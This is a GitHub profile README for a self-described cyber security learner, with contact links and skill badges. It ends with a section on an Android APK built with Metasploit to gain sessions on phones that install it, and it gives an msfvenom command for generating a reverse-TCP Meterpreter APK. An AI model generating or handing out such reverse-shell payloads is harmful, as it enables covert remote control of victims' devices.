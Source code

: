 <h1 align="center">Hi 👋, I'm Sai Nikhil Reddy Mondeddu</h1>
<h3 align="center">A passionate software engineer from India</h3>

<img align="right" alt="Coidng" width="400" src="https://camo.githubusercontent.com/19db51af5f90f1b152bc0b9078f5fe97053955be5074f03f17019c70345bdcdb/68747470733a2f2f6d69726f2e6d656469756d2e636f6d2f6d61782f313336302f302a37513379765349765f7430696f4a2d5a2e676966">


<p align="left"> <img src="https://komarev.com/ghpvc/?username=iamnikki&label=Profile%20views&color=0e75b6&style=flat" alt="iamnikki" /> </p>

- 🌱 I’m currently learning **cyber security skills, different AI courses etc...**

- 👨‍💻 All of my projects are available at [https://github.com/sainikhilreddymondeddu](https://github.com/sainikhilreddymondeddu)

- 📫 How to reach me **mondeddusainikhilreddy05@gmail.com**

- ⚡ Fun fact **I think I am funny..**

<h3 align="left">Connect with me:</h3>
<p align="left">
<a href="https://linkedin.com/in/sai nikhil reddy mondeddu" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/linked-in-alt.svg" alt="sai nikhil reddy mondeddu" height="30" width="40" /></a>
<a href="https://kaggle.com/sai nikhil reddy mondeddu" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/kaggle.svg" alt="sai nikhil reddy mondeddu" height="30" width="40" /></a>
<a href="https://fb.com/sai nikhil reddy mondeddu" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="sai nikhil reddy mondeddu" height="30" width="40" /></a>
<a href="https://instagram.com/m__s__n___reddy" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/instagram.svg" alt="m__s__n___reddy" height="30" width="40" /></a>
</p>

<h3 align="left">Languages and Tools:</h3>
<p align="left"> <a href="https://www.cprogramming.com/" target="_blank" rel="noreferrer"> <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/c/c-original.svg" alt="c" width="40" height="40"/> </a> <a href="https://www.w3schools.com/cpp/" target="_blank" rel="noreferrer"> <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/cplusplus/cplusplus-original.svg" alt="cplusplus" width="40" height="40"/> </a> <a href="https://www.linux.org/" target="_blank" rel="noreferrer"> <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/linux/linux-original.svg" alt="linux" width="40" height="40"/> </a> <a href="https://www.python.org" target="_blank" rel="noreferrer"> <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/python/python-original.svg" alt="python" width="40" height="40"/> </a> </p>



<p><img align="left" src="https://github-readme-stats.vercel.app/api/top-langs?username=iamnikki&show_icons=true&locale=en&layout=compact" alt="iamnikki" /></p>

<p>&nbsp;<img align="center" src="https://github-readme-stats.vercel.app/api?username=iamnikki&show_icons=true&locale=en" alt="iamnikki" /></p>

<p><img align="center" src="https://github-readme-streak-stats.herokuapp.com/?user=iamnikki&" alt="iamnikki" /></p>


<h4><b>THIS IS README CONTENT FOR THE ANDROID APK.</b></h4>
<p>This is an apk which is created in METASPLOIT. It will help us to gain session from any android.
Which is downloaded this apk. This was created for my self.
If you are downloaded this you wont get access from the target because we should run some commands in metasploit to gain access.
We should mention the LHOST and LPORT also which are seperate for every computer and network that's why this is only works for me.

To create your own apk like this:-
  1. Open metasploit framework.In linux based systems. 
  2. Then run this command:- msfvenom android/meterpreter/reverse_tcp LHOST=(your computer ip addrs) LPORT=(any 4 numbers which you should remember) R>filename.apk

THANKS FOR VISITING MY SITE......
    BYE.......</p>
